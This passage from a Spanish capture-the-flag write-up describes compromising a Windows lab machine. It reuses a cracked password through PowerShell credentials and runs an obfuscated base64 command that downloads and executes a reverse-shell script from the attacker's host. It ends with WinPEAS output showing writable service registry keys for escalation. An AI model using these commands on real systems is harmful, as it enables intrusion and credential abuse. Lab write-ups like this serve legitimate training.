 ```null
d-----        11/1/2019  11:09 AM                Hector                                                                                                                                                          
d-r---       10/21/2019   5:29 PM                Public 
```

Como tengo su contraseña (en caso de que se reutilice), puedo probar a crear unas PSCredentials y ejecutar comandos como este usuario

```null
PS C:\Users\Hector> $Pass = ConvertTo-SecureString 'l33th4x0rhector' -AsPlainText -Force 
PS C:\Users\Hector> $Cred = New-Object System.Automation.PSCredential('WORKGROUP\hector', $Pass)
PS C:\Users\Hector> Invoke-Command -ComputerName localhost -Credential $Cred -ScriptBlock { whoami } 
control\hector
```

De la misma forma que antes, me entablo una reverse shell como Hector

```null
PS C:\Users\Hector> Invoke-Command -ComputerName localhost -Credential $Cred -ScriptBlock { powershell -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFM
AdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADcALwBJAG4AdgBvAGsAZQAtAFAAbwB3AGUAcgBTAGgAZQBsAGwAVABjAHAALgBwAHMAMQAnACkA }
```

Puedo visualizar la primera flag

```null
PS C:\Users\Hector\Desktop> type user.txt 
240ad33dee104435e3a5eb106b5a948d 
```

# Escalada

Con WinPeas, aplico reconocimiento

El usuario puede modificar los registros de los servicios

```null
+----------¦ Looking if you can modify any service registry
+ Check if you can modify the registry of a service https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services-registry-permissions
    HKLM\system\currentcontrolset\services\.NET CLR Data (Hector [FullControl])
    HKLM\system\currentcontrolset\services\.NET CLR Networking (Hector [FullControl])
    HKLM\system\currentcontrolset\services\.NET CLR Networking 4.0.0.0 (Hector [FullControl])
    HKLM\system\currentcontrolset\services\.NET Data Provider for Oracle (Hector [FullControl])
    HKLM\system\currentcontrolset\services\.NET Data Provider for SqlServer (Hector [FullControl])
    HKLM\system\currentcontrolset\services\.NET Memory Cache 4.0 (Hector [FullControl])

    ...
```

Pruebo a modificar el binPath de uno de ellos pero no tengo acceso
